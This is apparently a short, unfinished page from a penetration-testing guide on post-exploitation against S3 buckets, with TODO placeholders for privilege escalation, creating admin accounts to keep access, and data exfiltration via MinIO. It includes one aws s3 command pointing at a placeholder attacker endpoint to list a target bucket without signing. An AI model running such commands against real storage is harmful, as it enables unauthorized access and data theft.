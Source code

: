# 04 - Post Exploitation

## Privilege Escalation

TODO: Write conditions to escalate to gain full control of the s3 bucket servers

## Maintaining Access

TODO: Provide steps for creating user accounts with admin access

## Data Exfiltration

TODO: Setup MinIO on a server to exflitrate s3 bucket instances and write conditions before executing this phase

`$ aws s3 --endpoint=http[s]://<attacker_url> --no-sign-request --recursive ls s3://<s3_bucket_IP>`

---
## References

- [MinIO](https://min.io)

- [minio-backup-s3](https://github.com/fandoghpaas/minio-backup-s3)